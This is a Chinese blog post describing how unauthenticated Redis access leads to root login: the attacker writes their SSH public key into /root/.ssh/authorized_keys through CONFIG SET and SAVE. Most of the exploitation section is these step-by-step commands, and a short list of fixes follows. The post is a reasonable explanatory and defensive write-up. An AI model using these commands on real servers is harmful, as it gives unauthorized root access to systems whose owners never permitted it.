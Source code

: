 ```yaml
---
title: 利用Redis未授权访问配合SSHkey文件提权
date: 2016-08-23 09:12:55
categories:
- Internet
tags: 
- redis
---
```

## 一.漏洞概述
Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。

## 二.漏洞分析与利用
#### 1. 先创建秘钥文件
```bash
ssh-keygen –t rsa
```
#### 2. 利用空口令登录redis
```bash
redis-cli -h xxx.xxx.xxx.xxx

config set dir /root/.ssh
config get dir
config set dbfilename authorized_keys
set test "\n\n\nssh-rsa  key_pub\n\n\n\n"
save
```
其中key_pub为生成的公钥,即可将公钥保存在远端服务器,使得登录时不需要输入账号与密码.

#### 3. 利用私钥登录root@xxx.xxx.xxx.xxx
```bash
ssh -i id_rsa root@xxx.xxx.xxx.xxx
```

## 三.漏洞修补方法
1. 禁止使用 root 权限启动 redis 服务；
2. 对 redis 访问启用密码认证，并且添加 IP 访问限制；
3. 尽可能不对公网直接开放 SSH 服务。

## 四.参考
- [zoomeye](https://www.zoomeye.org/)
- [Redis 未授权访问配合 SSH key 文件利用分析](http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/)
- [Redis未授权访问导致可远程获得服务器权限](http://www.2cto.com/Article/201511/449779.html)
        